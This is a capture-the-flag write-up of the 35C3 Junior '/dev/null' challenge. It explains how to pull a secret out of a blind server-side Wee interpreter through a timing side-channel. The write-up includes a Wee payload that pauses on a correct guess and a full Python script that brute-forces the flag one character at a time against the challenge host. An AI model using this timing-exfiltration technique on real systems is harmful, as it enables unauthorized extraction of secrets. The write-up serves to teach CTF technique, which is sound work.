 # 35C3 Junior CTF – /dev/null

* **Category:** Misc
* **Points:** 116 (variable)

## Challenge

> We're not the first but definitely the latest to offer dev-null-as-a-service. Pretty sure we're also the first to offer Wee-piped-to-dev-null-as-a-service[WPtDNaaS]. (We don't pipe anything, but the users don't care). This service is more useful than most blockchains (old joke, we know). Anyway this novel endpoint takes input at /wee/dev/null and returns nothing.
> 
> http://35.207.189.79/
> 
> Difficulty Estimate: Hard
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` two interesting methods can be discovered.

```Python
def runwee(wee: string) -> string:
    print("{}: running {}".format(request.remote_addr, wee))
    result = check_output(
        ["ts-node", '--cacheDirectory', os.path.join(WEE_PATH, "__cache__"),
         os.path.join(WEE_PATH, WEETERPRETER), wee], shell=False, stderr=STDOUT, timeout=WEE_TIMEOUT,
        cwd=WEE_PATH).decode("utf-8")
    print("{}: result: {}".format(request.remote_addr, result))
    return result

@app.route("/wee/dev/null", methods=["POST"])
def dev_null():
    json = request.get_json(force=True)
    wee = json["code"]
    wee = """
    var DEV_NULL: string = '{}'
    {}
    """.format(DEV_NULL, wee)
    _ = runwee(wee)
    return "GONE"
```

`DEV_NULL` variable contains the flag and is manipulated accessing to `/wee/dev/null` endpoint via POST operation. The variable is put into a *Wee* script, together with an input provided by the user via JSON, that is executed server side.

Unfortunately the execution is completely "blind", because no output is returned to the user, only a constant value (i.e. `GONE`).

Furthermore, the `runwee` method, which executes the passed *Wee* script, contains a timeout (i.e. 5 secs, that you will discover after few analysis).

You have to find a creative way to read that variable. The only way to exfiltrate data is via a *side-channel attack based on timing*, using a check that allows to "guess" the complete string one char at a time, i.e. something like *blind SQL injection* attacks.

Analyzing the documentation you could discover two useful methods:
* `charAt`;
* `pause`.

These could be used to craft a *Wee* script like the following.

```
if charAt(DEV_NULL, position) == '?' then
   pause(4500)
end
```

Where `position` is the char you are trying to guess and `?` is the char candidate. If the char candidate is correct, the script will pause for 4.5 secs.

A Python script can be used to automatize the operation.

```Python
import requests
import time
import json

url = "http://35.207.189.79/wee/dev/null"
data_structure = """{{ "code": {} }}"""
data_content = """if charAt(DEV_NULL, {}) == '{}' then
   pause(4500)
end"""
chars = list("_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM")
response_time_target = 4.0

try:
   
   f = 0
   flag = ""
   fast_answers = 0
   while fast_answers < len(chars):

      best_char = " "
      best_response_time = 0.0
      fast_answers = 0

      for c in range(len(chars)):
         print "[*] Flag char number '{}', char '{}'.".format(f, chars[c])
         data_content_to_send = json.dumps(data_content.format(f, chars[c]))
         data_to_send = data_structure.format(data_content_to_send)
         print "[*] Payload: '{}'.".format(data_to_send)
         start = time.time()
         response = requests.post(url, data=data_to_send)
         end = time.time()
         print "[*] Response: '{}'.".format(response.text)
      
         response_time = end - start
         print "[*] Response time is '{}'.".format(response_time)
         if response_time >= response_time_target and response_time > best_response_time:
            best_response_time = response_time
            best_char = chars[c]
            print "[*] Found char '{}'.".format(best_char)
            break
         elif response_time < response_time_target:
            fast_answers+=1

      f+=1
      flag += str(best_char)
      print "[*] >>> Flag: '{}'. <<<".format(flag)

except KeyboardInterrupt:
   print "[-] Interrupted!"
```

The flag is the following.

```
35C3_TH3_SUN_IS_TH3_SAM3_YOU_RE_OLDER
```